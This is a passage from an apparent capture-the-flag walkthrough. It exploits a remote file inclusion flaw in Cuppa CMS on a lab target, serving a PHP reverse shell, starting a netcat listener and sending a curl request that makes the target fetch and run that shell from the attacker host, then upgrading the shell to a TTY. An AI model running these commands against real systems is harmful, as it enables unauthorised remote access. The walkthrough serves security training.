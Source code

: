 ```
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

administrator           [Status: 301, Size: 339, Words: 20, Lines: 10, Duration: 188ms]
```

### Exploitation

Administrator Page shows its a cuppa CMS and by using `searchsploit cuppa cms` we found a potentials RFI vulnerability that give us initial foothold.
first we have to make `shell.php` file that have php reverse shell code I use PentestMonkey Php Reverse shell code so you can use that also.
After that we have to serve that file with any http server I use `python3` HTTP server using the following command.
```shell
python3 -m http.server 80
```
> **Note**: Use this command on the same directory where your php reverse shell file exits
After that we have to start our listener to catch reverse shell. We can do that with the following command.
```shell
nc -lvnp 4444
```
Now we are ready to launch our exploit. We can launch our attack with `curl` or manually using browser.
```shell
curl http://10.10.108.117/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://$ip/shell.php
```
##### Upgrade Shell

If every thing goes well now you should have a reverse shell. So now we have to upgrade that shell with higher pty shell so we can use it like our normal
shell. Just follow the following command.
```shell
python3 -c "import pty;pty.spawn('/bin/bash')"
```
When you run above command in your reverse shell you should see your shell looks a little bit better but they are not that good right now so we have make it more better.
Press `CTRL + Z` shortcut key of your keyboard. This will background your reverse shell.
After that use the following command.

Press `Enter` key twice and now you can use `CTRL+C` to kill your processes not your shell.
But there is one more step we have to do. Just Copy paste all the following command in your reverse shell.
```shell
export TERM=x-term256color
stty raw -echo;fg
alias diff='diff --color=auto'
alias egrep='egrep --color=auto'
alias fgrep='fgrep --color=auto'
alias grep='grep --color=auto'
alias ip='ip --color=auto'
alias l='ls -CF'
alias la='ls -A'
alias ll='ls -l'
alias ls='ls --color=auto'
```
Now you should have a Reverse Shell That looks like a SSH Shell.

